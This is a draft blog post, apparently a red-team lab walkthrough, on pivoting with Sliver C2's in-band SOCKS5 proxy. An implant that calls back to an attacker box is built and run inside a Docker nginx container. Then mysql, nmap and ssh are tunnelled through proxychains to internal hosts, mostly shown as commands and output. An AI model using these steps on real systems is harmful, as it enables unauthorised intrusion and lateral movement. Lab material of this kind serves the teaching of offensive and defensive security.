





+++
date = '2026-05-21T11:21:18+01:00'
draft = true
title = 'Sliver C2 Reverse Socks'
tags = ['sliver-c2', 'lateral-movement', 'proxy']
image = "featured.png"
summary = """
In this short blog post, Sliver C2 in-band proxy functionality is explored
to tunnel an attacker machine's traffic into a docker network through an implant
deployed in a container of the network, and access other containers/systems connected
to the same network.
"""
+++

# Introduction

Sliver has 2 types of proxies, an **In-band proxy** and a **Wireguard Proxy**.

The In-band proxy works only within a session, and can be used e.g with proxychains to
tunnel tools traffic through an implant into a corporate network.

The Wireguard proxy requires a wireguard implant. Sliver will generate a wireguard config
file which can be used with the `wg-quick` command to connect to the implant via the Sliver server.

In this short blog post, we will leverage Sliver C2 In-band proxy to connect to an internal database
container which is in the same network as a web container under our control (in which we have deployed
an implant).


# Set up


## Lab Topology




- Target (Victim) box|Ubuntu 22.04 | 192.168.122.162 |
- Attacker box|Parrot OS|192.168.122.127 |
- We will deploy an implant in the `web` service
- Setup an In-band socks5 through it
- Use proxychains from our host to tunnel nmap scans against the internal network of the app.

## Application

- The proposed application to deploy is made up of an `nginx` web server and a `mysql` database container.
- The goal is to deploy an implant on the web container and tunnel our tools traffic through it
so as to scan other services present in the internal docker network `172.18.0.0/16`

```yaml
services:
  web:
    image: nginx:1.29
    ports:
     - "8081:80"
    depends_on:
     - db
  db:
   image: mysql:5.7
   environment:
    - MYSQL_ROOT_PASSWORD=root
    - MYSQL_DATABASE=myapp
   command: --character-set-server=utf8mb4 --collation-server=utf8mb4_unicode_ci
```

- There are 2 services listening on the target VM, port 8081 which is our nginx container, and port 22 which is
the SSH server installed on the target VM.






## Deploy the implant

- The implant traffic from the web service container to the Attacker machine is shown below.



- We generate the implant to deploy via Sliver-Server console. It is configured to connect to
`192.168.122.127` on port 8000 which is our Attacker machine.

```
[server] sliver > generate -b 192.168.122.127:8000 --os linux --skip-symbols

[*] Generating new linux/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 10s
....
```

```
[server] sliver > implants

 Name                Implant Type   Template   OS/Arch           Format   Command & Control                  Debug   C2 Config   ID      Stage 
=================== ============== ========== ============= ============ ================================== ======= =========== ======= =======
 SUPERIOR_CESSPOOL   session        sliver     linux/amd64   EXECUTABLE   [1] https://192.168.122.127:8000   false   default     23270   false
```

- An https listener is started on the Attacker machine on port 8000 to receive the implant's connection.

```
[server] sliver > https -l 8000

[*] Starting HTTPS :8000 listener ...
[server] sliver > 
[*] Successfully started job #3
```

```
[server] sliver > jobs

 ID   Name    Protocol   Port   Domains 
==== ======= ========== ====== =========
 3    https   tcp        8000 
```

- The implant is copied into the nginx (web) service and executed

```sh
$ docker compose cp ./SUPERIOR_CESSPOOL web:/tmp/
[+] copy 1/1
 ✔ sliver-reverse-socks-app-web-1 Copied ./SUPERIOR_CESSPOOL to sliver-reverse-socks-app-web-1:/tmp/                                               0.4s
$ 
```

```sh
$ docker compose exec web /bin/bash
root@8f115929f15e:/# chmod +x /tmp/SUPERIOR_CESSPOOL 
root@8f115929f15e:/# /tmp/SUPERIOR_CESSPOOL
```

- Following execution of the implant, a session is obtained at the Sliver server.

```
[*] Session e1524948 SUPERIOR_CESSPOOL - 192.168.122.162:56642 (8f115929f15e) - linux/amd64 - Sat, 28 Feb 2026 07:04:25 WAT

[server] sliver > sessions

 ID         Transport   Remote Address          Hostname       Username   Operating System   Health  
========== =========== ======================= ============== ========== ================== =========
 e1524948   http(s)     192.168.122.162:56642   8f115929f15e   root       linux/amd64        [ALIVE]
```


## Start the In-band reverse socks5

- Below is a diagram of the expected reverse socks5 traffic from the nginx (web) service to the C2 server.



- The implant's active session is selected

```
[server] sliver > use e152

[*] Active session SUPERIOR_CESSPOOL (e1524948-1d04-4fce-a847-6816bddbaedf)
```

```
[server] sliver (SUPERIOR_CESSPOOL) > ifconfig

[server] sliver (SUPERIOR_CESSPOOL) > +---------------------------------------+
| eth0                                  |
+---------------------------------------+
| # | IP Addresses  | MAC Address       |
+---+---------------+-------------------+
| 2 | 172.18.0.3/16 | da:2d:1b:d8:cb:85 |
+---------------------------------------+
1 adapters not shown.
```

- A socks5 server is started on 127.0.0.1 port 1081 of the Attacker machine

```
[server] sliver (SUPERIOR_CESSPOOL) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081  
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol
```

```
[server] sliver (SUPERIOR_CESSPOOL) > socks5

 ID   Session ID                             Bind Address     Username   Passwords 
==== ====================================== ================ ========== ===========
  1   e1524948-1d04-4fce-a847-6816bddbaedf   127.0.0.1:1081
```

- From the attacker machine we can see that we have port 1081 listening.

```
$ss -tnal
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         4096             127.0.0.1:1081             0.0.0.0:*       
LISTEN    0         32                 0.0.0.0:53               0.0.0.0:*       
LISTEN    0         4096                     *:8000                   *:*       
LISTEN    0         32                    [::]:53                  [::]:*
```


## Tunnel tools

- Proxychains was installed on the Attacker machine, and the file `/etc/proxychains.conf` was modified
as follows to include the listening socks5 server on 127.0.0.1:1081

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
#socks4 	127.0.0.1 1080
socks5 	127.0.0.1 1081
```

- `mysql` client was tunnelled to reach the `db` container as shown below.

```
└──╼ $proxychains mysql -u root -h 172.18.0.2 -p
ProxyChains-3.1 (http://proxychains.sf.net)
Enter password: 
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.2:3306-<><>-OK
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.44 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| myapp              |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.085 sec)
```

- `nmap` was tunnelled via proxychains to scan the container's internal network as shown below.
- The host `172.18.0.1` (which corresponds) to the target VM was scanned on port 22.

```
$ proxychains nmap -Pn 172.18.0.1 -p 22 -sVC
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-28 07:38 WAT
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
Nmap scan report for fedora (172.18.0.1)
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 17:fa:e4:22:58:94:0b:49:d6:e6:05:19:5a:49:a9:89 (ECDSA)
|_  256 78:43:84:dd:64:27:b3:05:c4:95:af:db:e3:56:e7:05 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- A full ssh connection was established through proxychains to `172.18.0.1`

```
proxychains ssh -i id_rsa.key devel@172.18.0.1
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1081-<><>-172.18.0.1:22-<><>-OK
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-171-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Feb 28 07:47:28 UTC 2026

  System load:  0.0               Processes:             114
  Usage of /:   52.0% of 7.77GB   Users logged in:       1
  Memory usage: 13%               IPv4 address for ens3: 192.168.122.162
  Swap usage:   0%
```

# References

- https://sliver.sh/docs?name=Reverse+SOCKS
- https://redsiege.com/blog/2022/11/introduction-to-sliver/#SOCKS5